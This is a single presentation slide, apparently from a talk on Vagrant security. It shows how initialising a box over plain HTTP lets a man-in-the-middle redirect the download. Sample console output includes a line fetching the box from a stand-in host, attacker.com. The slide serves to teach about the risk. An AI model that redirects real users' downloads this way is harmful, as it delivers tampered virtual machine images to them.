

# THE SECURITY : VAGRANT INIT
Command:
$ vagrant init <box> [url]
Connection over HTTP (MiM)
$ vagrant init debian/jessie64 http://vagrantcloud.com/debian/jessie64
$ vagrant up
Bringing machine ’default’ up with ’virtualbox’ provider...
==> default: Box ’debian/jessie64’ could not be found...  default: Box Provider: virtualbox
default: Box Version: >= 0
==> default: Loading metadata for box ’debian/jessie64’  default: URL: http://vagrantcloud.com/debian/jessie64
==> default: Adding box ’debian/jessie64’ for provider: virtualbox
default: Downloading: http://attacker.com/debian/jessie64/virtualbox.box
Note: see Appendix for an illustrated example using the Burp Suite.
39